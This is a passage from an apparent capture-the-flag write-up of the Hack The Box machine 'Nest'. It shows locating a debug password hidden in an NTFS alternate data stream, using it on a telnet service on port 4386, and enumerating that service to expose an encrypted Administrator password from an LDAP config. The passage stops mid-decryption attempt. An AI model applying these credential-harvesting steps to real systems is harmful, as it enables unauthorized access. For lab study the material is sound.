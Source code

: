      Z:\C.Smith\HQK Reporting>dir /R
      Volume in drive Z has no label.
      Volume Serial Number is 2C6F-6A14
      Directory of Z:\C.Smith\HQK Reporting
       2019-08-09  00:06    <DIR>          .
       2019-08-09  00:06    <DIR>          ..
       2019-08-09  13:18    <DIR>          AD Integration Module
       2019-08-09  00:08                 0 Debug Mode Password.txt
                                        15 Debug Mode Password.txt:Password:$DATA
       2019-08-09  00:09               249 HQK_Config_Backup.xml
                      2 File(s)            249 bytes
                      3 Dir(s)  26 417 422 336 bytes free

     And we do infact find a hidden file. Open it using notepad and find the content "WBQ201953D8w".
         notepad Debug Mode Password.txt:Password:$DATA

 2. Login on the high port using telnet (telnet nest.htb 4386). Use the found debug password and we get new commands.
     >debug WBQ201953D8w
         Debug mode enabled. Use the HELP command to view additional commands that are now available

     >help
         This service allows users to run queries against databases using the legacy HQK format
         --- AVAILABLE COMMANDS ---
         LIST
         SETDIR <Directory_Name>
         RUNQUERY <Query_ID>
         DEBUG <Password>
         HELP <Command>
         SERVICE
         SESSION
         SHOWQUERY <Query_ID>

 3. Enumerate the box and we find HQK/LDAP/Ldap.conf
     >list
         Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command
          QUERY FILES IN CURRENT DIRECTORY
         [1]   HqkLdap.exe
         [2]   Ldap.conf
         Current Directory: LDAP
     >showquery 2
         Domain=nest.local
         Port=389
         BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
         User=Administrator
         Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=

 4. Another encrypted password, though this time for Administrator. Trying to decrypt it the same way as (temp)user gives us
    the error 'Padding is invalid and cannot be removed.'. Reading about this error, it is because we are using the wrong key to
    decrypt the data.
